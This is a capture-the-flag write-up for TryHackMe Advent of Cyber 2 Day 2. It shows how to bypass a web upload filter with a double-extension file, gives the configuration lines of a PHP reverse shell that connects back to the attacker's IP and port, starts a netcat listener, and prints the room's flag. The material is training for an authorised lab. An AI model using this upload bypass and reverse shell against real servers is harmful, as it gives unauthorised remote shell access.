 ```yaml
---
layout: post
title: AdventOfCyber2 Day 2
categories: [Write-Ups, AdventOfCyber]
tags: [TryHackMe, AdventOfCyber2]
featured-image:  adventOfCyber2/icon.png
featured-image-alt: adventOfCyber2
---
```


It's a write-up about the room : [Try Hack Me - Room : AdventOfCyber2](https://tryhackme.com/room/adventofcyber2)

# Day 2 : The Elf Strikes Back !

```
At the bottom of the dossier is a sticky note containing the following 
message:

    For Elf McEager:
    You have been assigned an ID number for your audit of the system: 
	ODIzODI5MTNiYmYw . Use this to gain access to the upload section of 
	the site.
    Good luck!
```

We deploy the machine, obtain the IP address : `10.10.4.190`

## What string of text needs adding to the URL to get access to the upload page?

We navigate tot the displayed IP address inn our browser and access to the upload page by adding this string to the URL : 
`/?id=ODIzODI5MTNiYmYw` because our ID is ODIzODI5MTNiYmYw.

## What type of file is accepted by the site? 
`<input type="file" id="chooseFile" accept=".jpeg,.jpg,.png">`
**image**

## Now we have to bypass the filter and upload a reverse shell.

* In which directory are the uploaded files stored?

We use the file **php-reverse-shell.php** and rename it **php-reverse-shell.jpeg.php**.
In this one, we put our IP OpenVPN address and the port where we want to listen : 
```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.87.25';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

We submit it in the website, and go on `http://10.10.4.190/uploads/` and find our file.  
So the uploaded files are stored in **/uploads/**.

## What is the flag in /var/www/flag.txt?

We listen our port with the command : `sudo nc -lvnp 443`
We launch our file in the directory `/uploads/` on the website. 
We can now execute shell command, so we do that below to find the flag : 

```
sh-4.4$ cat /var/www/flag.txt  
cat /var/www/flag.txt


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================
```

The flag is **THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}**.